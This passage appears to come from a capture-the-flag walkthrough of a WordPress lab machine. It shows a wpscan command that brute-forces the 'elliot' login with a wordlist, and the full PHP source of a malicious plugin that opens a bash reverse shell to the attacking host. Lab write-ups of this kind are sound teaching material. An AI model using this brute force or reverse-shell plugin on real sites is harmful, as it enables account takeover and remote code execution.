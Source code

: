 Now that we have found a valid username and have a relatively small wordlist we can brute force the wordpress login. Specifying 50 threads to speed up the process.
```
sudo wpscan --url 192.168.56.134 --usernames elliot --passwords fsocity.dic.sorted --max-threads 50
```

Once we have access to the wordpress backend we can abuse the Plugins functionality to upload a simple php/bash reverse shell plugin.

Insert the following reverse shell plugin code into a file, change the IP address to your attacking machine and then zip the file.
```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Wordpress Reverse Shell Plugin
* Version: 1.0
* Author: Zero
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.102/1337 0>&1'");
?>
```
